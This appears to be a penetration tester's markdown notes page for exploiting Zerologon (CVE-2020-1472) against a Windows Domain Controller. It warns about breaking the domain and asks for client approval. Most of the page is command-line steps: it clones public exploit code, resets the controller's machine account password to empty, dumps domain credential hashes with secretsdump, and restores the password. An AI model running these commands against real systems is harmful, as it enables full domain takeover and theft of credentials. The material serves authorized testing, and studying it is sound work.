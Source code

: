 # CAUTION
Extreme caution when attempting to exploit this vulnerability is required. The domain could be ***DESTROYED*** otherwise.

***DO NOT ATTEMPT*** without explicit approval from client.
# Overview
This exploit resets the Domain Admin's password to null, taking over the Domain Controller. The issue is if the attack is run and the password of the DA is not restored, the DC will be broken.
# How to do it
## Confirm exploit is possible
Firstly, run this script to check if Zerologon is possible (without attempting it):
```bash
git clone https://github.com/SecuraBV/CVE-2020-1472
pip install -r requirements.txt
python3 zerologon_tester.py [DC NAME] [DC IP]
```
Example:
```bash
python3 zerologon_tester.py HYDRA-DC 192.168.138.136
```
## Start attack
Once the exploit is confirmed, do the following:
```bash
git clone https://github.com/dirkjanm/CVE-2020-1472.git
python3 cve-2020-1472-exploit.py
```
If there are issues, purge impacket.
## Confirm attack succeeded
Use secretsdump.py to dump the hash of the DC.
```bash
secretsdump.py -just-dc [DOMAIN/DC NAME]\$@[DC IP] 
```
Enter an empty password when prompted.

Example:
```bash
secretsdump.py -just-dc MARVEL/HYDRA-DC\$@192.168.138.136
```
# How to restore the machine
Copy the administrator hash from the previous secretsdump.py.

Use secretsdump.py to extract and copy the "plain_password_hex" of the Domain Controller:
```bash
secretsdump.py [ADMIN USERNAME]@[DC IP] -hashes [ADMIN HASH]
```
Example:
```bash
secretsdump.py administrator@192.168.138.136 -hashes aad3b435b51404eeaad3b435b51404ee:6c598d4edc98d4edc98d0a0c9797ef98b869751
```
![image](https://github.com/user-attachments/assets/9a076f82-17d5-4db0-9c1d-d706c7253e36)
Run the restorepassword.py script (that comes with https://github.com/dirkjanm/CVE-2020-1472):
```bash
python3 restorepassword.py [DOMAIN/DC NAME]@[DC NAME] -target-ip [DC IP] -hexpass [PLAIN PASSWORD HEX]
```
